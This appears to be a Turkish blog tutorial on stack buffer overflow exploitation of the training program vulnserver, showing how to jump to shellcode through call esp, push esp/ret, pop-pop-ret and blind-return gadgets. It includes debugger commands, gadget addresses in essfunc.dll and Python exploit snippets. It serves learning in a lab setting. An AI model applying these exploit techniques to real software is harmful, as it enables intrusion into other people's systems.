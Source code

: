```yaml
---
layout: post
title: Shellcode'a Atlamak
---
```


Basite indirgenirse bulduğunuz bir zafiyet için bir exploit yazarken yapmaya çalıştığınız şey shellcodenuzu **EIP** registeri aracılığıyla işlemek. 

Bunu yapmanın farklı yöntemleri var, efendim genellikle browser zafiyetlerinde heap spray, normal * overflow açıklarında `jmp esp, call esp, push return, pop return` etc... kullanarak shellcodu *CPU* tarafından işliyorsunuz. Bundan önceki makalede bir `jmp esp` instructionını **EIP** üzerine yazarak stackde bulunan shellcodea atlamıştık. Bu makalede bunun diğer yöntemlerinden bahsetmeye çalışacağım. Makalede önceki yazıda kullandığımız düzenlenmiş *vulnserver* programını kullanmaya devam edicem, siz dilerseniz başka bir program kullanabilirsiniz.

## call [register] Metodu
Bu metodu herhangi bir register bizim shellcodumuzun başlangıç adresi ile dolu olduğunda kullanabiliyoruz. Önceki makalede exploit ettiğimiz overflow açığının exploiti üzerinde düzenleme yaparak nasıl olduğunu görelim. Öncelikle yapmamız gereken şey diğer yazıda olduğu gibi bir `call [reg]` instructionı bulmak. Bunun için vulnserver programımızı Olly'de açıyoruz. Ardından **ALT + E** kısayolu ile çalıştırılabilir moduller içerisinden programın kullandığı *essfunc.dll*'ye çift tıklayıp içerisinde girdikten sonra **CTRL + F** ile `call esp` araması yapıyoruz.

![](/files/callesp.png)

Gördüğünüz üzere `0x62501203` adresinde call esp instructionu mevcut. Resimde ayrıca bu işlemi hızlıca yapmanın bir yolu olan **findjmp** isimli uygulamanın çıktısını da görüyorsunuz. Bu adresi alıp önceki makalede bulunan exploitde gerekli yere yazıyoruz. Şu şekilde oluyor son hali:

    skip---
    mesaj += "A" * 2006
    mesaj += struct.pack('<I', 0x62501203) # essfunc.dll call esp (EIP)
    mesaj += "\x90" * 20
    skip---

Exploiti çalıştırdıktan sonra *vulnserver* uygulamasının çalıştığı sistemde shellcodumuz çalışacak ve *Gari de Gari* penceresi açılacaktır.

## push return Metodu
Bu metod önceki metodla benzerdir. Örneğin shellcodunuz yine espde olsun fakat bir engelden dolayı `call esp` yahut `jmp esp` yapamıyorsunuz. İşte bu durumda yapmanız gereken şey bir adet `push esp` ve bir adet `ret` instructionı kullanmak. Bunun için yine hafızada bu iki makine komutunu bulup exploitimizi ona göre düzenleyeceğiz. Ben bu defa *windbg* kullacağım daha fazla bilgi vermek için. Programı çalıştırıp windbg ile incelemeye aldıktan sonra *Debug* menüsünden *Break*'i seçerek kontrolu devralıyorum. Ardından `lm` komutuyla yüklenen modülleri listeliyorum.

    0:001> lm
    start    end        module name
    00400000 00407000   image00400000   (deferred)
    62500000 62508000   essfunc    (deferred)  
    629c0000 629c9000   LPK        (deferred)    
    662b0000 66308000   hnetcfg    (deferred)      
    71a50000 71a8f000   mswsock    (deferred)

essfunc.dll `62500000` ile `62508000` arasındaymış. Şimdi bu iki adres arasında arama yaparak `push esp ret` bulacağız. Öncelikle bu iki instructionın makine kodlarını öğrenelim.

    0:001> a
    7c901210 push esp
    push esp
    7c901211 ret
    ret
    7c901212 

    0:001> u 7c901210
    ntdll!DbgBreakPoint+0x2:
    7c901210 54              push    esp
    7c901211 c3              ret

**54** ve **c3** bizim opcode değerlerimiz. Şimdi bu değerleri bizim dll dosyamız içerisinde aratalım.

    0:000> s 62500000 62508000 54 c3
    625011df  54 c3 ff e2 59 5a c3 5d-c3 55 89 e5 ff e4 ff e6  T...YZ.].U......

`625011df` adresi bize gereken adres. Şimdi exploiti yeni adrese göre düzenleyip çalıştıralım.

    skip---
    mesaj += "A" * 2006 
    mesaj += struct.pack('<I', 0x625011df) # essfunc.dll push esp, ret (EIP)
    mesaj += "\x90" * 20
    skip---

Doğrulamak adına kısa bir inceleme yapalım. Windbg üzerinde `625011df` adresine `bp` komutu ile breakpoint koyuyorum. Ardından exploiti çalıştırıp 2-3 step inceliyorum.

![](/files/pushreturnmetodu.png)

Resimde kısa bir analizi görüyorsunuz. push esp ret bulunan adres **EIP** registerına yazılmış, program ordan devam ederken önce `push esp` ile `0xbdfa0c` yığına gönderiliyor, ardından `ret` ile yığından bu değer alınıp oradan devam ediliyor. Buradan sonra `g` ile programı devam ettirirsek exploit çalışacaktır.

## pop return Metodu
Eğer yığında shellcodea gidecek başka bir instruction varsa o zaman bu metot kullanılır. Bu gibi durumlarda yığının durumu şuna benzer bir şekilde oluyor:

    [AAAAAAAAAAA...AA][0x625011eb][NOOOOOOOOOPLAR[0x625011af][Shellcode]
       JUNK        EIP(pop ret)    8 byte NOP       jmp esp    Shellcode
         
`pop pop ret` **SEH** exploit ederken de karşımıza çıkacak fakat buradaki durum onla alakalı değil. Buradaki mantık şu:

    0:001> dd esp
    00bdfa0c  90909090 90909090 625011af 90909090
    00bdfa1c  90909090 90909090 90909090 90909090
    00bdfa2c  6fe79aba d9c2db9a 5ef42474 44b1c931
    00bdfa3c  31fcee83 56031056 b6127810 3d04e771

Burada stack durumunu görüyorsunuz. `625011af` ESP'ye **jmp** yapan bir instructionı gösteriyor. Fakat bunun çağırılması için öncelikle ondan öncekilerin ortadan kalkması lazım. Bunları stackten yok etmek için iki adet **pop** yeterli olacak bizim için, ardından bir **ret** kullanarak stackteki adresi alıp oradan yürütmeye devam edeceğiz programı.

    0:001> a
    00bdfa18 pop eax
    pop eax
    00bdfa19 pop ebx
    pop ebx
    00bdfa1a ret
    ret
    00bdfa1b 

    0:001> u 00bdfa18
    00bdfa18 58              pop     eax
    00bdfa19 5b              pop     ebx
    00bdfa1a c3              ret

Önce makine kodunu öğrendik, şimdi hafızada aratalım.

    0:001> s 62500000 62508000 58 5b c3
    625011eb  58 5b c3 e6 59 58 c3 5d-c3 55 89 e5 ff e4 ff e5  X[..YX.].U......

Aradığımız `625011eb` adresindeymiş. Şimdi gerekli düzenlemeleri yapalım. Exploitin son hali şu şekilde:

    skip---
    mesaj += struct.pack('<I', 0x625011eb) # pop pop ret (EIP)
    mesaj += "\x90" * 8 # Arada kalan 8 bytelık NOP
    mesaj += struct.pack('<I', 0x625011AF)  # jmp esp
    skip---

## Blind Return (Kör Dönüş) Metodu
Bu yöntemi uygulamak için yapmamız gereken öncelikle EIP'i 'ret' komutunu gösteren bir adres ile yazmak, ardından shellcodemuzun adresini elle belirleyip stackin ilk 4 byteına yazmak. Bunları gerçekleştirince EIP yazdığımız adrese geldiği zaman, yani ret çalıştığı zaman stackten el ile belirleyip yazdığımız shellcodenun adresini alarak programın akışını oradan devam ettirecek böylece shellcode çalışmış olacak.

Bu metod örneğin EIP'i bir yazmaca gidecek şekilde ayarlayamadığınızda, yani, jmp veya call instructionlarını kullanamadığınızda fakat stackte kontrolunuz olduğu durumlarda kullanabilirsiniz. Çok sık rastlanılmasa da karşı karşıya kalınabilecek durumlardan biri de bu. Tabi bu yöntemi uygularken de nullbyte kullanmamaya dikkat etmeniz gerekiyor. Aksi halde bulduğunuz ret adresi nullbyte içerdiği zaman, bu sonlandırıcı olarak algılanacağı için stacke istediğiniz gibi yazma yapamayacaksınız. Basitçe bu yöntemi kullanırkenki stack görüntünüz şöyle bir şey oluyor.

                            ret stackteki ilk 4 byteı
                            alıp, oradan devam edecek
                           -------------------------       ------------
                           |                       |       |          |
	[AAAAAAAAAAA...AA][bulduğunuz ret adresi]    [0xXXXXXXXX]     [Shellcode]
	       JUNK                                ESP(Shellcode adresi)

Sevgiler..
